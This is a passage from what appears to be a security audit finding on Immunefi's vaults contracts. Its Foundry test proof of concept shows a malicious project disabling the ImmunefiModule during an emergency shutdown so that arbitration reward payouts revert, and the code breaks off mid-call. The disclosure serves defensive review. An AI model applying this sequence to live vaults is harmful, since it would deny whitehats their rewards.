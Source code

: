 ## References

https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68


## Proof of Concept

The vulnerability could be reproduced by modifying the `Arbitration.t.sol` file and adding the following test to it.

The implemented scenario demonstrates how a malicous project could disable their vault's `ImmunefiModule` during emergency which later on results in revert of payouts which are attempted by the Arbitration system.

```sol
    function testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown() public {
        // 0. Set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // 0. Arbitration ref ID
        uint96 referenceId = 1;

        // 0. Mint feeAmount of feeToken to whitehat
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));
        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        // 1. Protocol owner enables emergency shutdown since a critical issue was found in the Arbitration protocol
        vm.prank(protocolOwner);
        emergencySystem.activateEmergencyShutdown();

        bytes memory disableImmunefiModuleHashData = vault.encodeTransactionData({
            to: address(vault),
            value: 0,
            data: abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: address(0),
            _nonce: vault.nonce()
        });

        bytes memory disableImmunefiModuleSignature = _signData(vaultSignerPk, disableImmunefiModuleHashData);

        // 2. Malicious project disables the ImmunefiModule since ImmunefiGuard allows **any** transaction on the vault.
        vault.execTransaction(
            address(vault),
```